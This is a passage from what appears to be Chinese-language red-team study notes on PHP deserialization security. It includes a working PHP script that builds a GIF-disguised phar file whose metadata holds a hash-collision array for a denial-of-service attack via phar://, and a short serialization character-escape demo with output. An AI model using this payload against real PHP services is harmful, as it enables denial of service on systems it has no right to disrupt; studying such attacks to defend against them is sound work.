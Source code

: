 ![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/PHP反序列化/4.png)

### 哈希表碰撞攻击

在 PHP 内核中，数组是以哈希表的方式实现的，攻击者可以通过巧妙的构造数组元素的 key 使哈希表退化成单链表（时间复杂度从 O(1) => O(n)）来触发拒绝服务攻击。

构造一串恶意的 serialize 数据（能够触发哈希表拒绝服务攻击），然后将其保存到 phar 文件的 metadata 数据区，当文件操作函数通过 phar:// 协议对其进行操作的时候就会触发拒绝服务攻击漏洞。

```php
<?php
    set_time_limit(0);
    $size= pow(2, 16);
    $array = array();
    for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
        $array[$key] = 0;
    }
    $new_obj = new stdClass;
    $new_obj->hacker = $array;
    $p = new Phar(__DIR__ . '/avatar.phar', 0);
    $p['hacker.php'] = '<?php ?>';
    $p->setMetadata($new_obj);
    $p->setStub('GIF<?php __HALT_COMPILER();?>');
?>
```

---

## 反序列化字符逃逸

```php
<?php
	class person{
		public $name = 'Bob';
		public $age = 18;
	}

	$P = new person();
	$s = serialize($P);
	echo $s.'</br>';
	var_dump(unserialize($s));
	$s_1 = $s.'abcd';
	echo '</br>'.$s_1.'</br>';
	var_dump(unserialize($s_1));
?>
```
```
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}
object(person)#2 (2) { ["name"]=> string(3) "Bob" ["age"]=> int(18) }
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}abcd
object(person)#2 (2) { ["name"]=> string(3) "Bob" ["age"]=> int(18) }
```
